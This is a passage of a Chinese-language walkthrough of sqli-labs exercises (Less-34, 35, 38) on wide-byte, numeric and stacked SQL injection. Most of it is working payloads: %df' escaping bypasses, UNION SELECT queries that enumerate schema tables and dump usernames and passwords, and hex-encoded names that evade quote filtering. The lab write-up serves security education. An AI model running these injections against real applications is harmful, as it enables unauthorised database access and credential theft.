 **宽字节注入-POST**

这一关是POST，抓包看一看，传入admin'/admin,同样对单引号转义，可以用宽字节注入

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140933664.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140933664.png)

uname=%df'&passwd=admin&submit=Submit

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250419171528520.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250419171528520.png)

uname=%df'--+&passwd=admin&submit=Submit 注释后页面正常，存在单引号注入

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140933562.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140933562.png)

```
uname=1%df' UNION SELECT 1,2 --+&passwd=&submit=Submit

uname=1%df' UNION SELECT database(),2 --+&passwd=&submit=Submit

uname=1%df' UNION SELECT group_concat(table_name),2 FROM information_schema.tables WHERE table_schema=0x7365637572697479 --+&passwd=&submit=Submit

uname=1%df' UNION SELECT group_concat(column_name),2 FROM information_schema.columns WHERE table_schema=0x7365637572697479 AND table_name=0x7573657273 --+&passwd=&submit=Submit

uname=1%df' UNION SELECT group_concat(concat_ws(0x3a,username,password)),2 FROM security.users--+&passwd=&submit=Submit
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140933398.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718140933398.png)

## Less-35

**宽字节注入-数字型**

直接用 ORDER BY 排序，网页回显正常数据，确定是数值型注入。由于数值型注入不涉及任何编码问题，因此任何转义操作都形同虚设。

```
?id=1 ORDER BY 3--+

#直接获取数据
?id=-1 UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

#### 

## Less-38

**堆叠注入**

这一关可以用Less-1的payload就可以获取数据，

```
?id=1
?id=1'
?id=1' --+
?id=1' order by 3 --+
?id=1' order by 4 --+
?id=-1' union select 1,2,3 --+

?id=-1' union select 1,database(),3 --+

?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=0x7365637572697479--+
# 0x7365637572697479 代替 'security',通过十六进制编码 避免单引号使用，绕过转义和过滤机制。
```